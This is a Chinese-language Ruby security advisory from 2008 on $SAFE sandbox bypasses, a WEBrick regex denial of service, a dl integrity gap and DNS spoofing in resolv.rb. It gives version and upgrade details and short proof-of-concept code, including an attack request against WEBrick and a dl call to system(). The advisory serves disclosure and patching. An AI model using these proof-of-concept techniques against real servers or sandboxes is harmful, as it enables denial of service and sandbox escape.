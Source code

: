 ```yaml
---
layout: news_post
title: "Ruby中的多个安全漏洞 - Ruby 官方网站"
author: "Xpol Wan"
date: 2008-08-08 04:40:03 +0000
lang: zh_cn
---
```


Ruby中发现多个安全漏洞。建议你更新到最新版本。

## 详情

发现以下安全漏洞。

### 在安全级别下的几个漏洞

发现在安全级别下存在几个漏洞。

* 在安全级别4下untrace\_var被允许。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* 在安全级别4下$PROGRAM\_NAME可能被修改。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 在安全级别1-3下可能调用不安全的方法。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* 在安全级别4下Syslog操作被允许。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

以上漏洞是由Keita Yamaguchi报告的。

### WEBrick中的致拒绝服务(DoS)漏洞

WEBrick::HTTP::DefaultFileHandler存在消耗指数时间响应请求的错误，
因为WEBrick::HTTPUtils.split\_header\_value中的一个回溯正则表达式 （backtracking
regular expression）。

可被利用的服务器：

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻击：

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

在这个例子中这个请求很可能无法完成。

这个漏洞是由Christian Neukirchen报告的。

### dl中缺乏完整性检查
{: #label-3}

dl没有进行完整性检查，因此可能允许攻击者调用危险的函数。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

这个漏洞是由sheepman报告的。

### resolv.rb的欺骗DNS漏洞

resolv.rb允许远程攻击者欺骗DNS响应。这个漏洞可以通过随机的DNS事务ID和源端口来解决。
所以resolv.rb已经采用随机化的方式来修正。

* 参考： [CVE-2008-1447][1]

这个漏洞是由Tanaka Akira报告的。

## 受影响的版本

1.8系列
: * 1\.8.5 和所有之前的版本
  * 1\.8.6-p285 和所有之前的版本
  * 1\.8.7-p70 和所有之前的版本

1.9系列
: * r18423 和所有之前的修订版本

## 解决办法

1.8系列
: 请更新到1.8.6-p286或者1.8.7-p71。

  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz&gt;][2]

        (md5: 797ea136fe43e4286c9362ee4516674e,
        sha256: 1774de918b156c360843c1b68690f5f57532ee48ff079d4d05c51dace8d523ed,
        size: 4590373)

  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz&gt;][3]

        (md5: 721741d1e0785a0b6b9fb07d55184908,
        sha256: 30ec4298e9ac186a2fe1a94362919ba805538252b707f3aadae1938429269c1a,
        size: 4805478)

1.9系列

: 请通过Subversion取得最新版本。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

请注意修正这个漏洞的软件包可能已经可以通过你的软件包管理软件更新了。

## 贡献者

感谢Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka Akira为Ruby
Security Team指出这个问题。

## 修订记录

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p286.tar.gz
[3]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p71.tar.gz
